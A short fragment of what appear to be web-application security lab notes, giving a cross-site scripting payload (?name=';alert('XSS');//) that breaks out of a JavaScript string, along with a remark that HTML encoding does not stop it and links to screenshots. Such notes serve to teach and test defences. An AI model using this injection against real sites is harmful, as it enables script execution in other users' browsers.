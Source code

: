 ### Payload

`?name=';alert('XSS');//`
- HTML-Encode does format JS Functions

!<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413152650.png" width="600"/>

!<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413152707.png" width="400"/>

